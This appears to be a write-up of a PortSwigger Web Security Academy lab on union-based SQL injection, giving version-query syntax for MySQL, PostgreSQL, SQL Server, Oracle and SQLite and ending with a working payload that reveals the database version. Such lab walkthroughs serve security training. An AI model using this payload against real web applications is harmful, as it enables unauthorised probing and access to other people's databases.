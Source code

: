 # Lab02: SQL injection attack, querying the database type and version on MySQL and Microsoft
* url: `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft`
* vulnerability: `Union-Based SQL Injection`


## Description 
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

## Proof of Concept
1. From the description of the lab, I'm told to use a `UNION attack` on the `product category` filter, much like the last lab. I'm also given a hint on the home page of the lab:  
![descript](images/sqli-practitioner-lab2-hint.png)
2. The methodology behind this lab is extremely close to the last lab, so please refer to: `sqli-practitioner-lab01.md`
3. I can test each of these, until I receive feedback:
* MySQL: `SELECT VERSION();` or `SELECT @@version`
* PostgreSQL: `version();`
* Microsoft SQL Server: `SELECT @@version`
* Oracle: `SELECT version from v$instance;` or `select banner from v$version` or 
`SELECT * from v$version;`
* SQLite: `SELECT sqlite_version();`
4. The following payload works!: `' UNION SELECT @@version, null-- -`
